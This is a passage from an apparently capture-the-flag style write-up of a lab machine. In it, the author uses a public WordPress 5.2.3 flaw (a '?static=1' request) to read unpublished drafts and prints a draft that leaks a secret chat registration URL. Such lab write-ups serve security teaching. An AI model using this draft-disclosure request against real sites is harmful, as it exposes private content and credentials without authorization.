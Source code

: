 ![image.png]({{ site.baseurl }}/assets/paper/image%206.png)

Seems like there might be secrets in Michael’s draft. Searching wordpress read draft exploit, we come across this site:

https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/

![image.png]({{ site.baseurl }}/assets/paper/image%207.png)

Let’s try to get the draft:

```bash
http://office.paper/?static=1
```

Output:

```bash

test

Micheal please remove the secret from drafts for gods sake!

Hello employees of Blunder Tiffin,

Due to the orders from higher officials, every employee who were added to this blog is removed and they are migrated to our new chat system.

So, I kindly request you all to take your discussions from the public blog to a more private chat system.

-Nick

# Warning for Michael

Michael, you have to stop putting secrets in the drafts. It is a huge security issue and you have to stop doing it. -Nick

Threat Level Midnight

A MOTION PICTURE SCREENPLAY,
WRITTEN AND DIRECTED BY
MICHAEL SCOTT

[INT:DAY]

Inside the FBI, Agent Michael Scarn sits with his feet up on his desk. His robotic butler Dwigt….

# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY

# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.

# Also, stop looking at my drafts. Jeez!

```
